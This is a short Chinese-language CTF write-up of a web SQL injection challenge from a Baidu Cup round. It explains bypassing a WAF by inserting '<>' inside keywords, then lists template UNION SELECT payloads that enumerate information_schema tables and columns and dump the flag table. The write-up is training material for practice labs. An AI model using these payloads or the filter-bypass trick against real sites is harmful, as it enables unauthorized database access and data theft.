 ```yaml
---
title: SQL-出题人就告诉你这是个注入
date: 2017-12-31 00:00:00
categories:
- CTF/Web
tags: 百度杯九月第二场
---
```


## 解题过程

### 观察

- url就一个参数id，页面提示信息`flag{在数据库中}`   
- 提交`%20and%201=1`被ichunqiu的waf拦截
- 提交`and%201=1`页面提示`inj code!`
- 观察页面源码可以看到当前所执行的SQL语句

### 测试

- 试验一堆字符，测试得到<>直接被过滤，便绕过waf和注入判定

### 注入

$字段个数 = `order by num`

$可见的字段=`union select 1,2,....,n`

$表名=`union select 1,group_concat(table_name),....n from information_schema.tables where table_schema=database()`

$列名`union select 1,group_concat(column_name),....n from information_schema.columns where table_name=0x$表名的十六进制`

`union select 1,$列名,....n from $表名` 

### Payload
- 利用<>插入在关键字当中绕过过滤

## 知识小结
- mysql中group_concat函数的使用
- mysql5.0以上版本的information_schema库
- waf花式绕过
